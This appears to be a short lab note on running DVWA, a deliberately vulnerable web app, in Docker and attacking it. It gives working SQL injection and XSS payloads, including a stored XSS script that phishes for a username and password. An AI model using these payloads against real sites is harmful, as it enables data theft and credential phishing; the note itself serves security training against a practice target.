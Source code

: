 # Web Security

To run DVWA easily:
1. Install docker
2. Run docker
3. Enter the following command

```docker run --rm -it -p 80:80 vulnerables/web-dvwa```

4. Go to `localhost:80' (firefox is better than chrome since chrome as anti-xss stuff)
5. Enter `admin` and `password`
6. Scroll down and click create and reset database
7. Log back in using the same credentials


SQL Injection:
Displays all records in DB:

Query being run by the server:

```SELECT first_name, last_name FROM users WHERE user_id = '$id'```
\
\
\
\
\
\
\
\
\
\
Substitute the following in:
```%' or '0'='0```

DOM XSS:

```?default=<script>alert(document.cookie)</script>```

Onetime XSS:

```<script>alert(document.cookie)</script>```

Stored XSS:

Enter the following:

```
So happy to be here
<script>
  alert("Hi, we need you to login once more before you can sign the book");
  var user = prompt("Please enter your username");
  var pwd = prompt("Please enter your password");
</script>
```


